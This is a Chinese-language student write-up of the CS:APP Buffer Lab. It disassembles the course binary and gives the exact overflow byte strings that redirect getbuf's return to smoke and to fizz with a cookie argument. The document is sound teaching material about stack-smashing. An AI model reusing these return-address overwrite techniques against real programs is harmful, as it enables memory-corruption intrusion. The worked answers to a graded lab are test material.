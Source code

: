 # CSAPP：第三次实验  Buffer Lab

## 一、实验说明



1. `bufferlab`中有三个文件，`bufbomb`、`makecookie`、`sendstring`，都是可执行文件

2. 生成自己的`cookie`：

   ```shell
   ./makecookie SA21225298
   -0x5e2f1f83
   ```
   
3. 构造攻击字符串：

   ```shell
   ./sendstring < exploit.txt > exploit-raw.txt
   ```

4. 反汇编`bufbomb`：

   ```shell
   objdump -d bufbomb > bufbome.asm
   ```

5. 字符串输入：

   ```shell
   ./bufbomb -t SA21225298 < exploit-raw.txt
   ```



![image-20220126163606635](.\attacklab.assets\image-20220126163606635.png)

![image-20220126163616869](.\attacklab.assets\image-20220126163616869.png)



## 二、实验内容



### 2.1  Level 0 ： Candle

​		![image-20220126165131323](.\attacklab.assets\image-20220126165131323.png)

​		![image-20220126165147463](.\attacklab.assets\image-20220126165147463.png)

​		首先在汇编文件中找到`getbuf`函数：

```assembly
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```

​		通常在P过程调用Q过程时，程序的栈帧结构如下图所示：

![image-20220126164427961](.\attacklab.assets\image-20220126164427961.png)

​		于是结合汇编代码可以分析出`getbuf`函数在调用`Gets`函数前的栈帧结构为：

![image-20220126164451536](.\attacklab.assets\image-20220126164451536.png)

​		为了覆盖被存在返回地址上的值(对于32位机器是4B)，我们需要读入超过系统默认12 Bytes大小的`string`。由于保存的`ebp`占据了4B 所以当我们的`input string`为20B时，最后4B 刚好覆盖返回地址。为了使`getbuf`执行结束后跳转到`smoke`函数，我们需要知道`smoke`函数的地址，查找反汇编文件发现其地址为`0x08048e20`。

```assembly
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

​		因此，攻击字符串长度为20B，且最后4B需为`0x08048e20`。由于我们在输入文件下写入的都是字符，而计算机系统中字符以`ASCII`码表示 /存储，因此为了构造所需要的地址或其他数据，我们采用代码包给出的 sendstring工具来将我们写入的`ASCII`码字符转换成所对应的字符。

​		首先将用于攻击的目标数据写入一个`txt`文件中并命名为`exploit.txt`（需写为用空格分隔的ASCII码），这
里目标数据如下(前16字节随意写)：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 20 8e 04 08`。要
特别注意，最后的四字节需写为`20 8e 04 08`而不是`08 04 8e 20`，因为数据在当前机器内存中是按小端
方式存储的。

​		最后运行`bufbomb`即可看到攻击结果：

![image-20220126164850085](.\attacklab.assets\image-20220126164850085.png)

​		这里发送邮件的错误可以忽略，这个功能是供`CMU`的学生使用的。



### 2.2 Level 1：Sparkler

![image-20220126165159724](.\attacklab.assets\image-20220126165159724.png)

​		同样在汇编代码中找到`fizz`函数：

```assembly
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

​		根据`level0`中的分析可知，为了从`getbuf`函数“返回”到该函数，我们首先需要构造如下字符串来覆盖`getbuf`函数的返回地址（前16B随意写）：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 c0 8d 0408`，但除此之外，本题还需要给出传入`fizz`函数的参数。在`fizz`汇编代码中可以看到`cmp`指令是将存放`cookie`的变量与`%ebp+0x8`处的值相比，所以正常调用的情况下参数位置就是`%ebp+0x8`处，但是注意，我们的输入操作是在`getbuf`函数中做的，因此必须确定该位置相对于`getbuf`函数的`ebp`的距离。做如下调用过程分析：
首先，我们调用`getbuf`函数：

![image-20220126165352410](.\attacklab.assets\image-20220126165352410.png)

​		当`getbuf`函数执行即将结束时，先执行`leave`指令：将`esp`指向`ebp`位置，然后`pop`备份的旧`ebp`到`ebp`指针中：

![image-20220126165509035](.\attacklab.assets\image-20220126165509035.png)

​		然后执行`ret`指令，将栈顶的返回地址弹出到EIP，然后按照EIP此时指示的指令地址继续执行程序。此时栈帧结构为：

![image-20220126165546061](.\attacklab.assets\image-20220126165546061.png)

​		由于返回地址被我们覆盖为`fizz`的地址，因此此时`eip`指示执行的是`fizz`函数。与所有函数调用一样，在一开始，`fizz`函数会执行`push, mov`指令，压入旧`ebp`并将`ebp`置为自己的栈帧位置：

![image-20220126165632550](.\attacklab.assets\image-20220126165632550.png)

​		可以看到，这里栈帧表现出来相当于主函数在没有压入返回地址的情况下调用了`fizz`函数（实际是不可能的，只是因为受到了我们的攻击），所以在这种情况下`fizz`中的`ebp+8`的位置应该对应于`getbuf`函数执行时的`ebp+12`的位置。

​		解决了在覆盖位置问题之后，就只剩用什么去覆盖的问题了。根据实验要求，我们使用`makecookie`生成覆盖内容：

![image-20220126165759927](.\attacklab.assets\image-20220126165759927.png)

​		于是最终覆盖的数据为：`01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 c0 8d 04 08 00 00 00 00 83 1f 2f 5e `

​		最后执行`bufbomb`程序：

![image-20220126165900255](.\attacklab.assets\image-20220126165900255.png)

​		攻击成功！



## 三、实验总结

​		这次`lab`比之前的简单多了，也更有了`hacker`的感觉。:grin:

